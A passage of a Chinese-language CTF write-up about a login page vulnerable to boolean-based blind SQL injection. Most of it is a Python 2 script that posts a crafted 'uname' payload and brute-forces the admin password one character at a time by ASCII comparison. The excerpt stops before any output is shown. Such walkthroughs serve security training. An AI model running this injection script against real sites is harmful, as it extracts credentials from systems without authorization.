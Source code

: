 ![在这里插入图片描述](img/750d03a15e8f8423be85bee0c89b1349.png)![在这里插入图片描述](img/2b8f1bbe42661f03f308f9cd82fcac89.png)
5、综上已可以确定存在布尔盲注！附上大佬的脚本：

```
 import requests

url = 'http://123.206.87.240:8007/web2/login.php'
payload = 'abcdefghigklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789@_.{}'

flag = ''

for i in range(1,40):
	for p in range(32,126):

		sqlstr = u"admin'-(ascii(mid(REVERSE(MID((passwd)from(-%d)))from(-1)))=%d)-'" %(i,p)
		username ="admin'-(ascii(mid(REVERSE(MID((passwd)from(-%d)))from(-1)))=%d)-'" 
		data = {
				'uname':sqlstr,
				'passwd':'123456'
				}
		html = requests.post(url,data=data).text
		if 'username' in html:
			print i
			flag += chr(p)
			print flag
print "=================================>"
print "\n" + flag 
```

执行结果如下：
